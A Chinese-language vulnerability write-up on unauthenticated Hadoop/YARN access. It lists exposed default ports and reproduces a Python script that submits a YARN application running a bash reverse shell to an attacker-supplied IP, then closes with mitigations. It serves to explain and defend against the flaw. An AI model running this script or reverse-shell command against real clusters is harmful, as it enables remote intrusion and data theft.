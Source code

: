 # Hadoop未授权访问

> 原文：[https://www.zhihuifly.com/t/topic/2962](https://www.zhihuifly.com/t/topic/2962)

# Hadoop未授权访问

## 一、漏洞简介

> Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce 算法进行分布式处理。这个框架被Adobe，Last fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

*   用户创建一个处理键值的map函数
*   产生了一套中间键/值
*   reduce函数合并中间值并把他们关联到对应的键

## 二、影响范围

## 三、复现过程

#### 1\. 扫描探测

##### 1.1 常见端口

![image](img/bd9206d43d21e83527fd04593e44ee67.png)

##### 1.2 敏感端口

| 模块 | 节点 | 默认端口 |
| --- | --- | --- |
| HDFS | NameNode | 50070 |
| HDFS | SecondNameNode | 50090 |
| HDFS | DataNode | 50075 |
| HDFS | Backup/Checkpoint node | 50105 |
| MapReduce | JobTracker | 50030 |
| MapReduce | TaskTracker | 50060 |

通过访问 NameNode WebUI 管理界面的 50070 端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075 开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS 存储的数据进行操作。

![image](img/995012ff5d662d413dd6ffc8a6232205.png)

#### 2\. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API 也可以提交任务执行。

利用过程如下：

*   在本地监听等待反弹 shell 连接
*   调用 New Application API 创建 Application
*   调用 Submit Application API 提交

**P牛的攻击脚本**

```
##!/usr/bin/env python

import requests

target = ‘[http://127.0.0.1:8088/](http://127.0.0.1:8088/)’

lhost = ‘192.168.0.1’ ## put your local host ip here, and listen at port 9999 `url = target + ‘ws/v1/cluster/apps/new-application’

resp = requests.post(url)

app_id = resp.json()[‘application-id’]

url = target + ‘ws/v1/cluster/apps’

data = {

‘application-id’: app_id,

‘application-name’: ‘get-shell’,

‘am-container-spec’: {

‘commands’: {

‘command’: ‘/bin/bash -i >& /dev/tcp/%s/9999 0>&1’ % lhost,

},

},

‘application-type’: ‘YARN’,

}

requests.post(url, json=data)` 
```

![image](img/5e061ae1f8353e17158d8c31f4352570.png)

#### 3\. 防范措施

1.  网络访问控制
    使用 安全组防火墙 或本地操作系统防火墙对访问源 IP 进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop 服务所有端口发布到互联网。

2.  启用认证功能
    启用 Kerberos 认证功能。

3.  更新补丁
    不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。